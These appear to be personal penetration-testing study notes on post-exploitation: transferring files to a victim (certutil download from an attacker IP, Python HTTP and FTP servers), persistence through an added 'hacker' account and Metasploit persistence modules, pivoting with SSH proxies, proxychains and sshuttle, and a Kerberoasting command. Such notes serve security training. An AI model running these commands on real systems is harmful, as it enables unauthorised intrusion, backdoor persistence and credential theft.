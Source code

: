 # File transfer
One important thing is to transfer files between the victim and the attacker so we can use different tools

## Certutil
```bash
certutil.exe -urlcache -f http://IP/file
```


## HTTP python
```bash
python -m SimpleHTTPServer 80
```


In case the don't work we can use FTP

## FTP 
It works in linuex and windows.

We can easily run on the attacker:
```bash
python -m pyftpdlib 21
```

On the victim we can run:
```bash
ftp IP
```

## Linux
In linux we can run `wget`

## Metasploit
We can also use the upload or download features of metasploit.



# Maintaining access

The idea is to maintain the access on the victim in order to have access in the next days.

One of the most used strategy is to add a user.

## Add user
```bash
net user hacker password123 /add
```

In this case we are adding a user in Active Directory.


## Metasploit
We can use the persistant script int hsi way:
```bash
run persistance -h

use exploit/windows/local/persistance

## or in case

use exploit/windows/local/registry_persistance
```
- we are opening a port in the machine but it is very very dangerous


In other hand we could run scheduled tasks:
```bash
run scheduleme

## or 
run schtaskabuse
```



# Pivoting 
Let's imagine we compromised a machine and this machine gives us access to two network interfaces.

Now imagine that these two interfaces share another one that was not accessible before to us.

So we use the first machine to compromise the one not accessible.

So what we can do is to setup a proxy


### Idea
we access in ssh to a machinwe we compromised:
- ![[Pasted image 20241221215410.png]]

So in this machine we can see two interfaces:
- ![[Pasted image 20241221215517.png]]

From our machine we ping `10.10.10.5` but we don't obtain any response.

So let's create a proxy and pivot to the new victim.

## Proxychain
So we start to cat the conf file of proxychain
```bash
cat /etc/proxychains4.conf
```
- here we can see:
- ![[Pasted image 20241221220151.png]]

This is what we need to use to blind the connection to the port 9050.

So what we do is to use ssh and to redirect th etraffic to the victim:
```bash
ssh -f -N -D PROXYCHAIN_PORT root@PIVOT_VICTIM_IP
```
- ![[Pasted image 20241221220309.png]]
- `-f` goes on background 
- `-N` means we don't want to execute remote commands
- `-D` this is to bind the connection to the port `9050`


At this point using `proxychains` we can run commands to reach the final victim:
```
proxychains nmap -p- FINAL_VICTIM_IP
```
- ![[Pasted image 20241221220544.png]]
- ![[Pasted image 20241221221221.png]]

Remember to use `-sT` because sometimes there are problems.

One useful command for hacking active directory is:
```bash
proxychains GetUserSPNs.py DOMAIN/username:PASSWORD -dc-ip 10.10.10.255 -request
```


We can also use firefox with the proxy:
```bash
proxychains firefox
```

## SSHUTTEL
Another tool is `sshuttle`

To install it we can use:
```bash
sudo pip install sshuttle
```

In this case we can connect using:
```bash
sshuttle -r username@VICTIM_IP FINAL_NETWORK_VICTIM --ssh-cmd "ssh -i identity_file"
```
- ![[Pasted image 20241221221927.png]]
-  trough the user on `10.10.155.5` we want to connect to the network `10.10.10.0/24` trough ssh with the identity file


In this case we can avoid to use proxychains in front every command and just type the command on the attacker machine:
- ![[Pasted image 20241221221911.png]]

## Chisel
Another tool we can use is chisel (find it on github).


# CLEAN UP
We have to make the victim clean and remove everything we have added or modified.

Make the system/network as it was when we entered:
- remove executables, scripts, and files
- remove malwares, rootkits and added user accounts
- set settings back to original configuration

